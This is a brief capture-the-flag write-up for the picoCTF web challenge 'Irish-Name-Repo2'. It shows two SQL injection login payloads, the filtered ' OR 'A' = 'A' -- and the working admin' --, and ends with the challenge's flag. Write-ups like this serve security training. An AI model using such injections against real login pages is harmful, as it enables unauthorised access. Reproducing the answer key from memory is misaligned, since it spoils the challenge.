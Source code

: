 # Irish-Name-Repo2

Point: 350

## Category

Web Exploitation

## Question

There is a website running at [https://2019shell1.picoctf.com/problem/40968/](https://2019shell1.picoctf.com/problem/40968/) [\(link\)](https://2019shell1.picoctf.com/problem/40968/). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or [http://2019shell1.picoctf.com:40968](http://2019shell1.picoctf.com:40968)

## Hint

The password is being filtered.

## Solution

The first time we've try with this

```bash
Username:       ' OR 'A' = 'A' --
```

=&gt; SQLi detected.

Try Username with `admin' --`, then we've got the flag

## Flag

picoCTF{m0R3\_SQL\_plz\_daf42601}

